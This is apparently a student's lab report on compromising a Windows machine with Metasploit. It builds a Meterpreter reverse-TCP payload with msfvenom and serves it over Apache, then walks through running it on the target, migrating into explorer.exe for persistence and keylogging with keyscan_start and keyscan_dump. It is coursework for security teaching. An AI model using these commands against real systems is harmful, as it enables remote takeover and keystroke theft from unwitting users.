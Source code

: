 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
```
NAME: YOGESH V S
REG.NO: 212222040185
```

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![Screenshot 2025-04-23 231505](https://github.com/user-attachments/assets/366085f9-9355-4b6e-a9d5-eddce3a17cef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![Screenshot 2025-04-23 234602](https://github.com/user-attachments/assets/12172145-5ee1-4baa-bba9-44b99fb41c47)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2025-04-23 234612](https://github.com/user-attachments/assets/654dbc15-70c8-4009-8e79-07e54ac7967c)

Start apache server sudo systemctl apache2 start

![Screenshot 2025-04-23 234617](https://github.com/user-attachments/assets/17a731b8-06c7-45d9-b24d-9c6ea652f966)

Check the status of apache2

![Screenshot 2025-04-23 234710](https://github.com/user-attachments/assets/d726d5a1-18b3-4af3-872a-9cd842705320)

## Output:

![Screenshot 2025-04-23 231846](https://github.com/user-attachments/assets/b63927bc-8631-4e08-8fc0-67b50ebc2a9f)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-23 235303](https://github.com/user-attachments/assets/e20ecfd2-220b-4578-8ba6-6083215a1117)

Starting a command and control Server use multi/handler
![Screenshot 2025-04-23 235431](https://github.com/user-attachments/assets/ec0bda09-1683-443f-b735-05c14a922c31)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![Screenshot 2025-04-23 235454](https://github.com/user-attachments/assets/abe01f92-87ad-432d-9ebe-33b53401d9a3)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2025-04-24 000012](https://github.com/user-attachments/assets/2d0f4282-85a8-49e0-810a-5d2b096e5d83)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2025-04-24 000031](https://github.com/user-attachments/assets/48fdbae6-feb7-4322-877c-83f4038e5951)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-24 000052](https://github.com/user-attachments/assets/b8b5e358-55f6-4956-849d-c9ffa3ca016c)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2025-04-24 000105](https://github.com/user-attachments/assets/1b2abe7f-e44c-42b5-9d24-97415685cecb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

